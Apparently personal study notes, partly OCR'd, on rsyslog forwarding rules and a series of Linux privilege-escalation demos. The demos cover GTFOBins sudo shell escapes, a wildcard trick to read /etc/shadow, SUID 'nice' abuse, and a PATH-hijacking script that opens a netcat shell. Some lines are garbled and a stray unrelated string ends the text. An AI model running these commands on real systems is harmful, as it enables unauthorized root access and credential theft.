     Rsyslog -> newer rsyslog references /etc/rsyslog.d/* for settings/rules
    older version only uses /etc/rsyslog.conf
    ex:
        kern.*                                                # All kernel messages, all severities
        mail.crit
        cron.!info,!debug
        *.*  @192.168.10.254:514     (1 @ = udp, 2 @@'s = tcp)                       # Old format
        *.* action(type="omfwd" target="192.168.10.254" port="514" protocol="udp")   # New format
        #mail.*
    
## demo for linux exploitation

    check what you can run:
        sudo -l 
    we see that we can run apt-get
        run that against GTFOBins
    it shows us it can be used to get a shell:
        sudo apt-get changelog apt -> !/bin/sh to get ya shell.
    whoami -> root
    id -> uid=o (root) gid=0(root) groups=0(root)

    **demo 2**
    sudo -l -> (root) NOPASSWD: /bin/cat /var/log/syslog*
    so we can:
        ls /var/log/syslog
    in order to see log files. -> BUT because there was an asterisk.. run 
        sudo cat /var/log/syslog.1 /etc/shadow

    **demo 3**
    find / -type f -perm /4000 -ls 2>/dev/null (find files with SUID bit)
    look through these, and cross reference with GTFO bins
    we find /usr/bin/nice 
    and GTFO bins tells us to run it and give ourself a shell.
    -> nice /bin/sh -p
    BAM SHELL

    **Demo 4**
    cd into /tmp
    make a script.
    nano ls
    #!/bin/bash -e /bin/bash
    nc 127.0.0.1 3333

    chmod it. chmod +x ls
    **create a netcat listener** on another terminal
    nc -lvp 3333 
    **run script**
    **ls has been replaced with a script, to actually run the command, /bin/ls**
    

    
    ghjcnbnenrf      (zeus)
        
        
    